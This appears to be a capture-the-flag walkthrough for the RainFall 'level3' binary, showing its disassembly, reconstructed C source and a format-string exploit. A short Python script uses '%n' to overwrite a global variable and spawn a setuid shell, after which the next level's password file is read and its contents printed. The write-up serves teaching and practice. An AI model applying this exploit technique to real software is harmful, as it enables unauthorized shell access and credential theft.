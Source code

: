 # Walkthrough

##	Program type:
Running the command `file ./level3` we see the file is 32-bit ELF executable.
```
level3@RainFall:~$ file ./level3
./level3: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x09ffd82ec8efa9293ab01a8bfde6a148d3e86131, not stripped
```
Running the command `checksec --file ./level3, we see that the stack is
executable (NX disabled).
```
level3@RainFall:~$ checksec --file ./level3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   ./level3
```
##	Content:
```
080484a4 <v>:
 80484a4:	55                   	push   ebp
 80484a5:	89 e5                	mov    ebp,esp
 80484a7:	81 ec 18 02 00 00    	sub    esp,0x218
 80484ad:	a1 60 98 04 08       	mov    eax,ds:0x8049860
 80484b2:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484b6:	c7 44 24 04 00 02 00 	mov    DWORD PTR [esp+0x4],0x200
 80484bd:	00
 80484be:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484c4:	89 04 24             	mov    DWORD PTR [esp],eax
 80484c7:	e8 d4 fe ff ff       	call   80483a0 <fgets@plt>
 80484cc:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484d2:	89 04 24             	mov    DWORD PTR [esp],eax
 80484d5:	e8 b6 fe ff ff       	call   8048390 <printf@plt>
 80484da:	a1 8c 98 04 08       	mov    eax,ds:0x804988c
 80484df:	83 f8 40             	cmp    eax,0x40
 80484e2:	75 34                	jne    8048518 <v+0x74>
 80484e4:	a1 80 98 04 08       	mov    eax,ds:0x8049880
 80484e9:	89 c2                	mov    edx,eax
 80484eb:	b8 00 86 04 08       	mov    eax,0x8048600
 80484f0:	89 54 24 0c          	mov    DWORD PTR [esp+0xc],edx
 80484f4:	c7 44 24 08 0c 00 00 	mov    DWORD PTR [esp+0x8],0xc
 80484fb:	00
 80484fc:	c7 44 24 04 01 00 00 	mov    DWORD PTR [esp+0x4],0x1
 8048503:	00
 8048504:	89 04 24             	mov    DWORD PTR [esp],eax
 8048507:	e8 a4 fe ff ff       	call   80483b0 <fwrite@plt>
 804850c:	c7 04 24 0d 86 04 08 	mov    DWORD PTR [esp],0x804860d
 8048513:	e8 a8 fe ff ff       	call   80483c0 <system@plt>
 8048518:	c9                   	leave
 8048519:	c3                   	ret

0804851a <main>:
 804851a:	55                   	push   ebp
 804851b:	89 e5                	mov    ebp,esp
 804851d:	83 e4 f0             	and    esp,0xfffffff0
 8048520:	e8 7f ff ff ff       	call   80484a4 <v>
 8048525:	c9                   	leave
 8048526:	c3                   	ret
 8048527:	90                   	nop
 8048528:	90                   	nop
 8048529:	90                   	nop
 804852a:	90                   	nop
 804852b:	90                   	nop
 804852c:	90                   	nop
 804852d:	90                   	nop
 804852e:	90                   	nop
 804852f:	90                   	nop
```
* The `main` function calls `v` function.

* `fgets(3)` is called inside `v`, which is a more secured version of `gets(3)`.
Allowing to specify a number of bytes to be read, eliminating any 
possibility to do a buffer overflow (by eliminating we mean the bytes to
be read should not be more than the size of the buffer itself, otherwise 
you'are stupid, I mean the programmer).
* The buffer is passed directly as first argument to `printf(1)`, which allows
to utilize a format string vulnerability.

* There's an if condition comparing the value `0x40` (64 in decimal) with a 
certain variable (global variable).

* If they are equal, `fwrite(3)` writes the string `"Wait what?!"` and calls
`system(3)` with `"/bin/sh"` afterwards.

* There's no way to change the value of the global variable to match the 
compared value directly.

## Reversing:
Upon analyzing the disassembly code we concluded that the actual C code could be something as follows:

```C
#include <stdio.h>

int		some_variable = 0;

void	v()
{
	char	buffer[520]; // 0x208

	fgets(buffer, 512, stdin); // 0x200
	printf(buffer);
	if (some_variable == 64)
	{
		fwrite("Wait what?!", 1, 12, stdout);
		system("/bin/sh");
	}
}

int		main()
{
	v();
	return (0);
}

```
## Solution:

* The idea is to use printf(1) to put 0x40 (64 in decimal) in the global variable:
	* We need to find its address on the data segment, we can find it in the 
	disassembly of the 'v' function:
	```
	0x080484da <+54>:	mov    eax , ds:0x804988c <-- (Simple ;p)
	```
	* We will use the format string specifier %n to modify its value as follows:
	```
	"%60x%4$n"
	```
	The `"%60x"` part writes a padding of 60 bytes in the stdout, and `"%4$n"`
	counts those written bytes and writes in the target address (the 4th 
	address in the stack frame).
* Now lets write the python script that will enable us to access the shell using that vulnerability:

```python
import struct

system_addr = struct.pack('I', 0x804988c)

print system_addr + "%60x%4$n"
```
* Running the exploit give us access to an unauthorized shell:
```
level3@RainFall:~$ (python exp.py; cat -) | ./level3
�                                                         200
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
